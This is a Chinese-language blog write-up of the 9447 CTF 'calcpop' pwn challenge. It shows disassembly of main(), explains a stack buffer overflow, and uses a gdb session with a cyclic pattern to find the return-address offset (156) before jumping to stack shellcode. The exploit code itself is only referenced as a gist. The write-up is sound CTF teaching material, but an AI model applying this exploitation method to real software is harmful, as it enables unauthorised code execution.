 ```yaml
---
title: 'Writeup-9447 CTF: calcpop'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
---
```


先看反汇编代码：
{% highlight objdump %}
...
8048460:	55                   	push   %ebp
8048461:	89 e5                	mov    %esp,%ebp
8048463:	57                   	push   %edi
8048464:	56                   	push   %esi
8048465:	be 00 01 00 00       	mov    $0x100,%esi
804846a:	53                   	push   %ebx
804846b:	83 e4 f0             	and    $0xfffffff0,%esp
804846e:	81 ec 90 00 00 00    	sub    $0x90,%esp
8048474:	a1 60 a0 04 08       	mov    0x804a060,%eax
8048479:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
8048480:	00
8048481:	8d 5c 24 10          	lea    0x10(%esp),%ebx
8048485:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
804848c:	00
804848d:	89 df                	mov    %ebx,%edi
804848f:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
8048496:	00
8048497:	89 04 24             	mov    %eax,(%esp)
804849a:	e8 a1 ff ff ff       	call   8048440 <setvbuf@plt>
804849f:	c7 04 24 10 88 04 08 	movl   $0x8048810,(%esp)
80484a6:	e8 55 ff ff ff       	call   8048400 <puts@plt>
80484ab:	eb 29                	jmp    80484d6 <main+0x76>
80484ad:	8d 76 00             	lea    0x0(%esi),%esi
80484b0:	a1 40 a0 04 08       	mov    0x804a040,%eax
80484b5:	89 04 24             	mov    %eax,(%esp)
80484b8:	e8 33 ff ff ff       	call   80483f0 <_IO_getc@plt>
80484bd:	85 c0                	test   %eax,%eax
80484bf:	0f 88 e3 00 00 00    	js     80485a8 <main+0x148>
80484c5:	88 07                	mov    %al,(%edi)
80484c7:	83 ee 01             	sub    $0x1,%esi
80484ca:	83 c7 01             	add    $0x1,%edi
80484cd:	83 f8 0a             	cmp    $0xa,%eax
80484d0:	0f 84 ca 00 00 00    	je     80485a0 <main+0x140>
80484d6:	83 fe 01             	cmp    $0x1,%esi
80484d9:	77 d5                	ja     80484b0 <main+0x50>
80484db:	85 f6                	test   %esi,%esi
80484dd:	0f 85 bd 00 00 00    	jne    80485a0 <main+0x140>
...
{% endhighlight %}

这段代码是 main() 函数起始的位置，可以看到这里的工作是将终端输入的数据循环读入栈中。其中 esi 寄存器是循环计数器，初始值是 0x100, 而在栈中划分的空间只有 0x90 字节, 这里存在栈溢出。

用 `pattern.py 256` 生成 pattern, 开 gdb 调试 calcpop.
{% highlight console%}
$ gdb calcpop
Reading symbols from calcpop...done.
(gdb) r
Starting program: /home/cubelin/is/ctf/9447/pwn/calcpop/calcpop
Welcome to calc.exe
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
Missing a space; your input was 0xffffd390
Missing a space; your input was 0xffffd390
exit
Exiting...

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
(gdb) quit

$ pattern.py 0x41326641
Pattern 0x41326641 first occurrence at position 156 in pattern.
{% endhighlight%}

main() 函数返回地址在 offset 为 156 的位置。然后借由程序返回的栈地址，可以直接执行栈中的 shellcode.

exp 如下:

{% gist cubarco/ee054809d1643602b844 %}
